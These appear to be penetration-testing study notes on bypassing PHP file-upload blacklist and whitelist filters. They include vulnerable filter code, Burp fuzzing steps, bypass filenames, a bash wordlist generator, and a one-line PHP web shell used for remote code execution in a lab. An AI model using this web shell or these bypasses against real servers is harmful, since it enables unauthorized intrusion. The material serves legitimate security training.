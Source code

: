 # File Upload – Blacklist Filters
### Summary

- Blacklist filters check only for disallowed file extensions.    
- These are incomplete and weak security mechanisms.
- Attackers can fuzz and find extensions that bypass the blacklist and still execute.
### How Blacklist Validation Works

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```
#### Weaknesses:

- Misses other PHP execution-capable extensions (`.php2`, `.phtml`, etc.)    
- Case-sensitive – e.g., `.pHp` might bypass
- Doesn't inspect MIME or content
- Only checks file extension, not behavior
### Fuzzing for Bypass Extensions
#### Goal: Find file extensions not present in the blacklist but still allowed by the server for execution
#### Steps:

1. Capture a valid upload request to `/upload.php` in Burp.    
2. Replace filename with: `filename="HTB.EXT"` — set `.EXT` as the Intruder position.
3. Load a list of PHP extensions from:
    - [PayloadsAllTheThings PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/File%20Upload%20Vulnerabilities.md)
    - [SecLists Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
4. Set attack type to Sniper
5. Uncheck URL-encoding (so `.` isn’t encoded)
6. Start attack & sort by response length
### Valid Extensions (Example)

Extensions that returned `200 OK` and uploaded successfully might include:

- `.phtml`
- `.php3`
- `.php5`
- `.phar`
- `.pht`
- `.php2`

> These vary based on server config – test multiple
### Exploiting Non-Blacklisted Extensions

1. Replace content with PHP Web Shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

2. Rename file as `shell.phtml`
3. Upload → verify success
4. Visit:

```
http://SERVER_IP/profile_images/shell.phtml?cmd=id
```
###### Output: `uid=33(www-data) gid=33(www-data)` confirms RCE
### Wordlists Used

- PHP Extensions Wordlist:  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/File%20Upload%20Vulnerabilities.md
- Web Extensions List (SecLists): https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
# File Upload – Whitelist Filters
### What is Whitelisting?

- **Whitelist = safer than blacklist**
- Only explicitly allowed extensions (e.g. jpg, png, gif) are accepted
- Used when only a few file types are expected (e.g., image uploads)
- Still bypassable via misconfigurations or faulty regex
### Whitelist Regex Example

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```
#### Issue:

- Does **not anchor to the end of string**
- Matches even `shell.jpg.php` or `a.gif.php5` etc.

Safer pattern:

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ... }
```
### Bypass Techniques

#### 1. **Double Extensions**

- Example: `shell.jpg.php` 
- Passes `.jpg` check, but still executes `.php`

#### 2. **Reverse Double Extensions**

- Example: `shell.php.jpg`
- Bypasses strict regex
- Executes if server is misconfigured (e.g., Apache’s `php.conf` using unanchored regex)

```html
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

- Misses anchoring `$` → leads to unsafe execution
### Character Injection Bypass
#### Common injected characters:

```
%20  %0a  %00  %0d0a  /  .\  .  …  :
```
#### Examples:

- `shell.php%00.jpg` → PHP 5.x null byte truncation    
- `shell.aspx:.jpg` → NTFS alternate data stream (Windows servers)
### Generating Payloads – Bash Script

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

- Output: `wordlist.txt` for Burp Intruder fuzzing
### Steps to Exploit

1. Upload file with trick extension (`.jpg.php`, `.php.jpg`) 
2. Confirm success via response / file browsing
3. Visit:

```
http://SERVER_IP/profile_images/shell.jpg.php?cmd=id
```

4. If vulnerable, code executes: `uid=33(www-data) gid=33(www-data)`   
### Wordlists & Tools
- Fuzz extensions using:
    - https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
    - Custom script-generated `wordlist.txt`
# Tags
>  #Web-Exploitation #Exploitation #File-Upload-Attacks